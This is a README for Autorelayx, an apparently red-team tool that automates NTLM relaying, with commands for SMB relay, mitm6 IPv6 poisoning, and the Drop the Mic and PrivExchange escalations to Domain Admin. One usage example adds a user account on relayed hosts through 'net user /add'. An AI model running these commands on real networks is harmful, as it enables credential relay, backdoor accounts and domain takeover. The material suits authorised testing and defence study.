 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing and using a specific interface for Responder and mitm6.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456"> -i <eth0>```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. It is suggested to use the -d <domain> argument to limit mitm6's 
responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -ef <exchange_servers.txt>```

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -e <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <'DOMAIN/user:password'> -e <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -e <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -e <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```